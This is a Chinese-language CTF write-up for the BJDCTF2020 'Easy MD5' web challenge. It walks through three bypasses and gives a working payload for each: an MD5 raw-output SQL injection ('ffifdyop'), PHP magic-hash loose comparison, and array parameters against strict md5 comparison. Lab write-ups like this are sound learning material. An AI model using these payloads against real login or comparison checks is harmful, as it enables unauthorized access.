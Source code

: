 ```yaml
---
title: BJDCTF2020 Easy MD51
date: 2022-07-13 22:51:57
permalink: /pages/d9360c/
categories:
  - 网络安全
  - web安全
  - ctf学习
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# BJDCTF2020 Easy MD51

### 题目 

![image-20220713172715922](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207131752209.png)

### 解题思路

* 寻找线索
* 找到能绕过的md5

### 做题过程

* 一开始无论在输入框里输入什么都毫无反应

* 通过F12在响应头的Hint中找到了线索，select * from  ‘admin’  where password=md5($pass,true)

* 需找到一个字符串转成md5后能帮我们实现SQL注入，首先or这个是必要的，然后还要把单引号给闭合，通过在网上寻找线索，发现`ffifdyop`经过md5后成为

  `276f722736c95d99e921722cf9ed621c`刚好这个字符前几个是’ or '6XXXX

  这样sql语句就会变为`select * from 'admin' where password= ''or'6xxxxxx'`这样此句就会变为真从而绕过了md5

* payload

  ```
  ?password=ffifdyop
  ```

  

* 过了这个之后页面就会变成doyou like md5，并跳转到levels91.php

  ![](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207131805865.png)

* 按f12发现如下php代码

  ```
  $a = $GET['a'];
  $b = $_GET['b'];
  
  if($a != $b && md5($a) == md5($b)){
      // wow, glzjin wants a girl friend.
  ```

* 分析代码，a不等于b，但他们俩的md5需要弱相等

* 百度后找到如下俩个相等的md5值

  ```
  QNKCDZO
  0e830400451993494058024219903391
  s878926199a
  0e545993274517709034328855841020
  这里利用==比较漏洞,如果两个字符经MD5加密后的值为 0exxxxx形式，就会被认为是科学计数法，且表示的是0*10的xxxx次方，还是零，都是相等的。
  ```

* payload

  ```
  ?a=QNKCDZO&b=s878926199a
  ```

* 然后就会页面就跳到levell14.php并出现一下php代码

  ```php
  <?php
  error_reporting(0);
  include "flag.php";
  
  highlight_file(__FILE__);
  
  if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
      echo $flag;
  }
  #此处需要用post传param1和param2且它俩不相等，但md5值是相等的
  #利用md5在php中识别不了数组的漏洞进行绕过，俩边都为false自然相等了。
  ```

* payload

  ```
  param1[]=1&param2[]=0
  ```

  ![image-20220713182444484](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207131824440.png)



